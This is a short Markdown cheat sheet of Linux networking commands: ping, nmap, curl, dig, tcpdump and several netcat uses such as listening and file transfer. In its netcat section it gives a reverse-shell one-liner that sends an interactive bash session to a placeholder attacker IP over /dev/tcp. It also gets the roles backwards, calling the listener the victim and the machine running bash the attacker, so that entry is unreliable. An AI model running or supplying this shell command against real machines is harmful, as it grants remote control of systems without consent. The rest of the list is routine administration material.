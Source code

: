 # **Networking Commands - Linux Quick Reference**

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

Recommended OS: Kali Linux

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display or configure network interfaces.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234`
- **Connect to host (chat, etc.)**:  `nc <hostname or IP> 1234`
- **Send file**:  
  **Receiver opens port and preps redirect**:  `nc -l 12345 > received_file.txt`  
  **Sender connects and redirects file to receiver ip**:  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  **Victim opens port**:  `nc -lvp 4444`  
  **Attacker**:  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
